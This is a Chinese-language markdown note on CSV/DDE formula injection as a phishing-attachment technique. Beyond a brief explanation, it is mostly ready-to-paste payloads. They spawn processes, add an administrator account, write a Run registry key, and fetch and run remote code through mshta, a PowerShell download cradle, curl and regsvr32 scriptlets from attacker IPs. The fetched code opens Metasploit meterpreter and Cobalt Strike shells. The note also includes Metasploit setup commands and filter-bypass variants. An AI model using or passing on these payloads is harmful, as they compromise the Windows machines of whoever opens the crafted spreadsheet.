 ```yaml
---
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - CSV
excerpt: CSV(Comma-Separated Values) 是一种用来存储数据的纯文本格式文件。
---
```


# CSV

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)
>
> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

## CSV简介

CSV(Comma-Separated Values) 是一种用来存储数据的纯文本格式文件。

CSV文件由任意数目的记录组成，记录间以指定符号(最常见的是逗号,也有用分号,制表符,`|`,空格等分隔的)分隔

例如:

![image-20240710094603740](http://cdn.ayusummer233.top/DailyNotes/202407100946680.png)

---

## CSV注入原理

CSV 注入是一种将包含恶意命令的excel公式插入到可以导出csv或xls等格式的文本中，当在excel中打开csv文件时，文件会转换为excel格式并提供excel公式的执行功能，会造成命令执行问题。

Excel 有一个特性：单元格中的第一个字符是 `+、-、@、=` 这样的符号时，他会以一个表达式的形式被处理

![image-20240710094847973](http://cdn.ayusummer233.top/DailyNotes/202407100948082.png)

不过除了公式之外, `=` 也可以用于执行代码, 这需要涉及到一个概念: [DDE](../DDE/index.md)

动态数据交换（DDE），是Windows下进程间通信协议，支持Microsoft Excel，LibreOffice和Apache OpenOffice。

Excel、Word、RTF、Outlook都可以使用这种机制，根据外部应用的处理结果来更新内容。因此，如果我们制作包含DDE公式的CSV文件，那么在打开该文件时，Excel就会尝试执行外部应用。

---

由于涉及到调用外部应用,加载外部数据, 对于新版本 Office 而言需要在 `文件-选项-信任中心-信任中心设置-外部内容-动态数据交换的安全设置` 中启用 `动态数据交换服务器查找` 和 `动态数据交换服务器启动`

![image-20240710110237136](http://cdn.ayusummer233.top/DailyNotes/202407101102187.png)

---

## 弹计算器

例如

```
=1+cmd|'/C calc'!A0
```

![image-20240710101319768](http://cdn.ayusummer233.top/DailyNotes/202407101014821.png)

![image-20240710101407766](http://cdn.ayusummer233.top/DailyNotes/202407101014623.png)

---

## OS命令执行

可以利用上述方式执行系统命令, 例如

- 打开任意应用程序

  例如打开浏览器访问指定站点

  ```
  =1+cmd|'/C "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" http://100.1.1.131:8090/a'!A0
  ```

- 反弹Shell

- 添加用户

  ```
  =cmd|'/C net user test 123456 /add'!A0+<br>=cmd|'/C net user test 123456 /add && net localgroup administrators test /add'!A0
  ```

- 修改注册表

  ```
  =cmd|'/C reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v calc /t REG_SZ /d c:\windows\system32\calc.exe /f'!A0
  ```

---

## cmd+mshta+msf 反弹Shell

> TODO

`msf`:

```bash
msfconsole
use exploit/windows/misc/hta_server
# 设置srvhost和srvport绑定一个web服务让目标访问
msf exploit(windows/misc/hta_server) > set srvhost 100.1.1.131
# 使用的攻击载荷
set payload windows/x64/meterpreter/reverse_tcp  
#默认是x86的,选择x64
set target 1
# 绑定攻击机IP
set lhost 100.1.1.131
# 启动脚本
run
```

新建csv, 插入如下命令并保存文件

```
=1+cmd|'/C mshta http://100.1.1.102:8080/3Mw1oRtpuxJp.hta'!A0
```

用 Excel 重新打开该 CSV即可上线 msf

---

## PowerShell 上线 CobaltStrike

```
=1+cmd|'/C "powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\"http://100.1.1.131:8051/b\"))"'!A0
```

---

## CMD + Curl 下载与执行可执行文件

```
=cmd|'/C "curl http://100.1.1.131:8888/artifact_x64.exe --output shell.exe && .\shell.exe"'!A0
```

---

## 超链接钓鱼链接

```
=HYPERLINK("http://10.182.234.102:8090/a","点我百度”")
```

---

## 注册加载远程sct

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```csv
fillerText1,fillerText2,fillerText3,=MSEXCEL|'\..\..\..\Windows\System32\regsvr32 /s /n /u /i:http://192.168.154.200/cmd.sct scrobj.dll'!''
```

---

## 加载 scriptlet

> [office-exploits/injections at master · SecWiki/office-exploits · GitHub](https://github.com/SecWiki/office-exploits/tree/master/injections)

```
=Package|'scRiPt:http://XXXX/XXXX.xml'!""
```

---

## 绕过技巧

> [CSV注入详解 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12272?time__1311=mqmhD5YIoXqBqDudxUOxAEtKUq0INx&alichlgref=https%3A%2F%2Fwww.google.com%2F#toc-0)

---

### 静态

可以通过运算符`+-`的方式绕过对于 `=` 的检测

```
-1+1+cmd |’ /C calc’ !A0
```

参数处输入以下 Payload，`%0A`被解析，从而后面的数据跳转到下一行：

```
%0A-1+1+cmd|' /C calc'!A0
```

导出文件为 csv 时，若系统在等号`=`前加了引号`’`过滤，则可以使用分号绕过，分号`；`可分离前后两部分内容使其分别执行：

```
;-3+3+cmd|' /C calc'!D2
```

其他常用 Payload：

```
@SUM(cmd|'/c calc'!A0)
=HYPERLINK("https://attact.com")
```

---




































